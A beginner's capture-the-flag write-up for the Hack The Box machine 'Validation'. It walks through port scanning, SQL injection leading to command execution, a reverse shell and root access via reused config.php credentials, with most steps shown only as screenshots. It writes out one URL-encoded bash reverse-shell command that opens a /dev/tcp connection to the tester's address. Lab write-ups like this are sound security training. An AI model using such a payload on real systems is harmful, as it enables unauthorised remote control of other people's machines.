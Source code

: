# Validation

This is my write-up for the machine called **Validation** located at: [https://app.hackthebox.com/machines/Validation](https://app.hackthebox.com/machines/Validation).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

rustscan: rustscan -a 10.10.11.116

![](<../../.gitbook/assets/image (349) (1) (1).png>)

Going to port 80, we see this page:

![](<../../.gitbook/assets/image (338) (1) (1) (1).png>)

On Hack The Box, I got a hint from one of the tags from the machine:

![](<../../.gitbook/assets/image (352) (1) (1).png>)

It seems that I need to run some type of SQL Injection on the page. After trying a bunch of SQL queries, I ended up running an nmap scan on the machine, since according to the walk-through, I had missed a bunch of open ports using rust scan:

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1).png>)

After I got stuck, I found [this write-up](https://solomon-sec.com/hack-the-box-validation-walkthrough/) that basically made it understand where the vulnerability was:

![](<../../.gitbook/assets/image (345) (1) (1) (1).png>)

I then got the following output:

![](<../../.gitbook/assets/image (342) (1).png>)

This showed me that this is vulnerable to SQL Injection. Viewing the same write-up, I then changed the parameters to then submit to the website:

![](<../../.gitbook/assets/image (351) (1) (1).png>)

![](<../../.gitbook/assets/image (335) (1) (1).png>)

I then got stuck again and then watched [this video](https://youtu.be/dFKsSYVeVbI) that assisted a bit more in the understanding of what I was messing up on. I found out that I had to run the command to get a shell on the system:

![](<../../.gitbook/assets/image (341) (1) (1) (1).png>)

After I ran this command, I was able to run commands on the system:

![](<../../.gitbook/assets/image (328) (1) (1).png>)

Apparently the IP Addresses of the VPN you are using on HTB can change, which was something I did not know. When I ran **ifconfig**, I understood why my reverse shell command was not working when I tried it. In any case, I got the reverse shell by running the following command (recommended by the official write-up and modified to work for me):

`bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/1234+0>%261'`

In order to get this to work though, you have to change your request from GET to POST, which can be done by clicking on the button below:

![](<../../.gitbook/assets/image (340) (1) (1) (1).png>)

You can then submit the command, as seen in the image above. After I had the shell, the first thing I did was find the user.txt file:

![](<../../.gitbook/assets/image (344) (1) (1).png>)

I was trying to find a way to upload **linpeas.sh** or get a way to see what access I had, but I ended up getting nowhere. On the official write-up, the credentials I had seen earlier in config.php, were the credentials for the root user:

![](<../../.gitbook/assets/image (329) (1) (1).png>)

I was then able to get the flag using the root access.
